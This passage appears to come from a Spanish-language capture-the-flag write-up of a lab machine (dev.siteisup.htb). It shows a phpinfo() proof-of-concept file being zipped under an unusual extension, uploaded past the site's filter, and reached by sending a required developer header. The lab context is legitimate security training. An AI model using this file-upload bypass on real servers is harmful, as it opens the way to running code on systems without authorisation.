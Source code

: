 ~~~
cat poc.php 
<?php phpinfo(); ?>

zip test.qwe poc.php                     
  adding: poc.php (stored 0%)

ls
poc.php    test.qwe
~~~
Subiendo esto a la página, se ve que carga correctamente.
**NOTA: No se olvide agregar el parametro (Special-Dev: only4dev) en todas las peticiones dentro del subdominio "dev.siteisup.htb"**

![](updown5.jpg)

Ahora revisando si se creo un directorio que almacena el archivo de ve.

![](updown6.jpg)

